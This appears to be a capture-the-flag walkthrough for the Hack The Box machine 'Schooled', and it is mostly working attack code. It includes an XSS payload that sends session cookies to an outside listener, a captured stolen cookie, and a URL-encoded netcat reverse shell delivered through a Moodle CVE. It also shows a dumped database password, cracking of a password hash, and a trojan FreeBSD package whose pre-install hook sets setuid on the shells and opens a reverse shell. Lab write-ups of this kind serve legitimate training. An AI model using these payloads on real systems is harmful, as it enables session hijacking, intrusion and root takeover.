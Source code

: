 # Notes for Schooled
# -Foothold
## Gobuster
Directory bruteforcing returned nothing
Vhost bruteforcing found `moodle.schooled.htb`

Appears to be moodle 3.9.0, vulnerable to many XSS's
Registering as a student and enrolling in Mathematics, the teacher informed that he would be visiting student's profile pages, which is vulnerable to XSS
Inject the code:
```javascript
<img src=x onerror=this.src="http://10.10.14.28/?c="+document.cookie>
```
to MoodleNet profile field to steal phillips' `MoodleSession` cookie
```bash
$ nc -lp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
GET /?c=MoodleSession=cl0vfvt7o1raqaj94rdtc0ejjp HTTP/1.1
Host: 10.10.14.28
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=29
```

After getting teacher account, exploit the site with cve-2020-14321 to obtain admin access and upload a reverse shell
```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.28%201234%20%3E%2Ftmp%2Ff
```

# -User
```php
$ cat /usr/local/www/apache24/data/moodle/config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```
```bash
$ export PATH=$PATH:/usr/local/bin
$ mysql --user=moodle --password moodle
Enter password: PlaybookMaster2020
use moodle;
select * from mdl_user;
```
crack the hash with hashcat
```text
$ hashcat -a 0 -m 3200 hash.txt rockyou.txt
...
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
...
```
ssh
```bash
$ ssh jamie@10.10.10.234
```

# -Root
```bash
$ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
Create trojan package with this `setup.sh` script
```bash
#!/bin/sh

STAGEDIR=/home/jamie/pkg
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
chmod +s /usr/local/bin/bash
chmod +s /usr/local/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 1234 >/tmp/f
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
```
Either
```bash
# On local machine
$ nc -lvnp 1234
```
or
```bash
# On the box
$ bash -p
# whoami
root
```